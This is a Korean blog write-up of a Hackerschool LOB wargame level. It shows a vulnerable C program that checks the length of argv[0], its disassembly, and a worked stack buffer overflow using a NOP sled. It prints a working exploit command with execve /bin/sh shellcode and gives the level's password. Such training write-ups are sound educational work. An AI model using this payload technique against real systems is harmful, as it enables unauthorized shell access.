 ```yaml
---
date: '2022-10-17'
before : '2022-10-16'
after : '2022-10-18'
title: 'FTZ LOB LEVEL 7'
categories: ['C-SEC', 'KOR','PWN']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에

이번 문제도 얼마든지 NOP SLED로 풀이가 가능했다.

### 1. Level 7 : Darkelf -> Orge

이번 문제는 코드가 조금 특이하다. 확인해보자
```

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // here is changed!
        if(strlen(argv[0]) != 77){
                printf("argv[0] error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
                printf("argument is too long!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
}
```
다른 코드는 저번과 똑같은데, strlen(argv[0]) != 77라는 조건문이 생겼다. argv[0]? 매개변수는 argv[1]부터 시작인데?


**그렇다, 파일 이름이 0번째 매개변수이다. 따라서 우리는 파일 이름을 75글자로 바꿔줘야 한다(./가 붙으니 2바이트는 채워진다.)**


파일 이름을 바꾸는 법은 간단하니 넘어가고, 나머지 풀이과정은 전 문제와 동일하다. 어셈블리 코드 : 
```
0x8048500 <main>:       push   %ebp
0x8048501 <main+1>:     mov    %ebp,%esp
0x8048503 <main+3>:     sub    %esp,44
0x8048506 <main+6>:     cmp    DWORD PTR [%ebp+8],1
0x804850a <main+10>:    jg     0x8048523 <main+35>
0x804850c <main+12>:    push   0x8048690
0x8048511 <main+17>:    call   0x8048410 <printf>
0x8048516 <main+22>:    add    %esp,4
0x8048519 <main+25>:    push   0
0x804851b <main+27>:    call   0x8048420 <exit>
0x8048520 <main+32>:    add    %esp,4
0x8048523 <main+35>:    mov    %eax,DWORD PTR [%ebp+12]
0x8048526 <main+38>:    mov    %edx,DWORD PTR [%eax]
0x8048528 <main+40>:    push   %edx
0x8048529 <main+41>:    call   0x80483f0 <strlen>
0x804852e <main+46>:    add    %esp,4
0x8048531 <main+49>:    mov    %eax,%eax
0x8048533 <main+51>:    cmp    %eax,77
0x8048536 <main+54>:    je     0x8048550 <main+80>
0x8048538 <main+56>:    push   0x804869c
0x804853d <main+61>:    call   0x8048410 <printf>
0x8048542 <main+66>:    add    %esp,4
0x8048545 <main+69>:    push   0
0x8048547 <main+71>:    call   0x8048420 <exit>
0x804854c <main+76>:    add    %esp,4
0x804854f <main+79>:    nop
0x8048550 <main+80>:    nop
0x8048551 <main+81>:    mov    DWORD PTR [%ebp-44],0x0
0x8048558 <main+88>:    mov    %eax,DWORD PTR [%ebp-44]
0x804855b <main+91>:    lea    %edx,[%eax*4]
...생략
```
ebp-44이니 더미 44개 + 리턴주소 4바이트로 대략적인 두 번째 매개변수의 주소를 리턴으로 넘겨줘 NOP SLED로 쉘코드를 실행시킨다.


익스플로잇 : 
```
./`python -c 'print "A"*75'` `python -c 'print "A"*44+"\x98\xfb\xff\xbf"'` `python -c 'print "\x90"*100 + "\x90"*100+"\x90"*150+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

비밀번호 : timewalker

 ---
## Source

- 해커스쿨 FTZ
- Me!
